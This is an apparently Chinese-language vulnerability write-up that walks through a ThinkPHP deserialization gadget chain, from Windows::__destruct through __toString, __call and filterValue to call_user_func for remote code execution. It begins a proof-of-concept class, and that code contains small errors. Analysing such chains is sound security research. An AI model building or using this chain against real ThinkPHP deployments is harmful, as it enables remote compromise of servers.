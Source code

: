 我们调用的filterValue方法存在于if语句下 about 1387line

```php
        if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            if (version_compare(PHP_VERSION, '7.1.0', '<')) {
                // 恢复PHP版本低于 7.1 时 array_walk_recursive 中消耗的内部指针
                $this->arrayReset($data);
```

`array_walk_recursive`方法用法如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c1df7d04246df295f855278906a9481be8fe4741.png)

所以这里的$data作为后面函数的参数执行

然后再进入filterValue方法，这样$value和$filters就可以被我们控制了，从而实现rce

### poc编写

我们来回顾一下这个漏洞的整体逻辑

```php
class Windows->__destruct()//作为入口触发
class Windows->$this->removeFiles()//为了进入file_exists方法，作为string来进行解析，从而触发__toString
trait Conversion->__toString()
trait Conversion->$this->toJson()
trait Conversion->$this->toArray()//这个方法中存在$relation->visible($name);从而触发__call
class Request->__call()//存在hook[$method]定义成isAjax(),触发该函数，进而触发filterValue方法下的call_user_func()如下
class Request->isAjax()
class Request->$this->param()
class Request->$this->input()
class Request->filterValue()
call_user_func()//实现rce
```

我们首先想办法触发`__toString()`

```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
use think\model\concern\Conversion;
class Windows extends Pipes
    //从__destruct()为入口进入到romoveFile()的file_exists方法，files会as为filename从而
    //file_exists(new Pivot())触发toString
{
    private files=[];
    public function __construct{
        $this->files=[new Pivot()];
    }
}
```

为了将 `windows` 和 `Convertion` 进行连接，我们可以利用命名空间中的 `Conversion`。在 `Model` 中使用了 `Conversion` 的命名空间，而 `Pivot` 继承了 `Model`，所以我们可以通过创建一个 `Pivot` 实例来与 `Conversion` 进行联系。
